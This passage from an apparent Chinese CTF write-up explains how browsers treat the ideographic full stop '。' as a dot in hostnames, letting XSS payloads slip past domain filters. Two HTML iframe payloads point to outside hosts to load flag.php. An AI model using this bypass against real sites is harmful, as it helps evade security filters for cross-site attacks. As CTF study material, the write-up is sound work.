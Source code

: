 
但是，我在测试的时候并没有发现这个问题。后来，与队友讨论和测试了一下，发现很神奇!!

貌似我的chrome有毒。。只有它不能拦截。在ubuntu上测试了一下，和在别人的mac上测试了一下，都会遇到这个坑。。

估计我的chrome有点逆天😂



#### .号的句号形式绕过 

> 所有的主流浏览器都支持用中文句号替换域名部分的英文句号，原因是一些中文键盘更容易输入中文句号......
>
> https://www.zhihu.com/question/45554645

在域名（包括ip格式）部分，浏览器能把。识别成.，也就是说qq。com可以识别成qq.com 192。168。1。1会是被称192.168.1.1  这样就可以绕过前面部分了。但是，这个特性在url后面就失效了。比如admin。com／flag。php 它只能转化成admin.com/flag。php

同时对于admin.com\test.com 它也会自动转换到admin.com/test.com

结果如下

源码：

```html

<html>
<head>
    <meta charset="utf-8">
    <title>XSS Test Page</title>
</head>
<body>
<p>

            <iframe src=\\104。224。169。90\flag。php

</p>
</body>
```



![juhao](https://moxiaoxi.info/img/post/0ctf/juhao.png)

 ```html

<html>
<head>
    <meta charset="utf-8">
    <title>XSS Test Page</title>
</head>
<body>
<p>

            <iframe src=\\router。vip\flag。php

</p>
</body>
 ```
